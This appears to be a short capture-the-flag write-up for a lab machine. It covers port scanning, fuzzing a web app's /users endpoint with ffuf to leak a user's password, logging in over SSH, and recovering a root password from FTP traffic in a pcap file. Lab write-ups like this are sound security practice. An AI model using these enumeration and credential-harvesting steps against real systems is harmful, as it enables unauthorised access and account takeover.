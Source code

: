 # Port Scans
* There are only two ports: 22 and 5000
* The app on port 5000 seems to be a Python webserver
# Web App Enum
* The landing page seems to indicate that there's a /add endpoint and a /users endpoint. When we look at the /add endpoint in BurpSuite, it looks like we need to send a post request to the /add endpoint.
```
username=shyhat&password=hackerfrogs
```
* Then we can send a get request to the /users endpoint and get info about our new user
```
/users?username=shyhat
```
* From here we can fuzz for the correct URL parameter
```
ffuf -u "http://172.17.0.2:5000/users?FUZZ=testing" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -mc all -fs 35
```
# Initial Access
* The output includes passwords, so we should probably fuzz the endpoint /users endpoint with ffuf
```
ffuf -mc all -request users_fuzz.txt -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -request-proto http -fs 32
```
The username is `pingu`, and it looks like their password is `pinguinasio`
* Login with SSH
# Privilege Escalation
* In the home directory, there is a pcap file. We can move it to our machine with Scp
```
scp -P 22 pingu@172.17.0.2:/home/network.pcap .
```
* In the pcap, there's a password in the FTP traffic for the root user
* Finis
